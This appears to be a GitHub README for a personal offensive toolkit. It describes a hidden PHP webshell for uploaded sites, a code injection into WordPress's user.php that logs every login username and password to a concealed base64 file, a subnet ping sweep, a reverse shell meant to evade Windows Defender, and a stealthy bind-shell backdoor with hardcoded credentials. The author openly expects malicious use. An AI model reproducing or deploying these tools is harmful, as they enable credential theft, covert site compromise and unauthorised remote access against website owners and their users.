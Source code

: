 # JustRepository

Testing project

## Getting Started

These are some repository tools and code I made for fun (?). I want to say "use this for educational purposes only" but I know it won't change your evil thoughts.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz** - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login. Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php. Just note for real world usage there will be many login attemp if login page is exposed by default because people using bots to bruteforce, means that .txt file logger will has a lot of false negative and large data

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.txt
```

### ping.sh
Simpe ping with bash. or you can use this simple script through command line with this:
```
time for i in {1..254}; do (ping -c 1 172.19.0.$i | grep "bytes from" | cut -d':' -f1 | cut -d' ' -f4 &); done
```
### Reverse shell Evade Defender AV
In case nc.exe blocked or need single command line reverse shell on limited shell or single click reverse shell. Using python 2.7 (os,socket,subprocess,threading) converted in exe binary spawn \windows\system32\cmd. Evade by encrypt with base64 and simple print argument. Catch with ncat for rev and meterpreter session for mrev
```
.\rev444
.\mrev4444
```
```
Usage: sel <target ip> <Port #>
.\sel 10.10.14.2 4141
```
### Awesome Backdoor Windows Bind Shell
Windows compiled x64 python exe bindshell Modified from:
* **NullByte** - *Windows Python Bind Shell* - [Python Bind Shell](https://null-byte.wonderhowto.com/how-to/create-bind-shell-python-0163951/)

bind-dxntboy-8282.exe has green status from virus total (atleast until today it created). Bind to port 8282, USER:dxntboy, PASS:pass and ready to go. Will compile in stealth mode (running in background) if I has to use in real world. Connect via ncat
```
nc <target> 8282
```
